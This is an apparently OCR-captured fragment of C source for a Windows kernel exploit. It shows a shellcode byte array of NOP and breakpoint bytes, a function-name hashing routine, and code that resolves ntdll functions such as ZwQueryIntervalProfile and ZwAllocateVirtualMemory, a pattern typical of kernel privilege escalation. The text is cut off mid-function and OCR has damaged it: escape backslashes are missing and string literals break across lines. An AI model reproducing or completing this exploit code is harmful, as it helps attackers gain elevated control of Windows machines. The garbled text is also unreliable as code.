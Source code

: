 "xffx90x90x90"

"x90xccxccx90x90x90x90x90x90x90x90x90x90x90x90x90"
"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"
"x90x90x90x90x90x90x90x90x90x90x90x90xccx90x90xcc";

void ErrorQuit(pMsg)
{
printf("%sError Code:%d
", pMsg, GetLastError());
ExitProcess(0);
}

ULONG ComputeHash(char *ch)
{
ULONG ret = 0;

while(*ch)
{
ret = ((ret << 25) | (ret >> 7)) + *ch++;
}

return ret;
}

void GetFunction()
{
HANDLE        hNtdll;

hNtdll = LoadLibrary("ntdll.dll");
if(hNtdll == NULL)
ErrorQuit("LoadLibrary failed.
");

ZwQueryIntervalProfile = (ZWQUERYINTERNALPROFILE)GetProcAddress(hNtdll, "ZwQueryIntervalProfile");
if(ZwQueryIntervalProfile == NULL)
ErrorQuit("GetProcAddress failed.
");

ZwQueryInformationProcess = (ZWQUERYINFORMATIONPROCESS)GetProcAddress(hNtdll, "ZwQueryInformationProcess");
if(ZwQueryInformationProcess == NULL)
ErrorQuit("GetProcAddress failed.
");

ZwQuerySystemInformation = (ZWQUERYSYSTEMINFORMATION)GetProcAddress(hNtdll, "ZwQuerySystemInformation");
if(ZwQuerySystemInformation == NULL)
ErrorQuit("GetProcessAddress failed.
");

ZwAllocateVirtualMemory = (ZWALLOCATEVIRTUALMEMORY)GetProcAddress(hNtdll, "ZwAllocateVirtualMemory");
if(ZwAllocateVirtualMemory == NULL)
ErrorQuit("GetProcAddress failed.
");
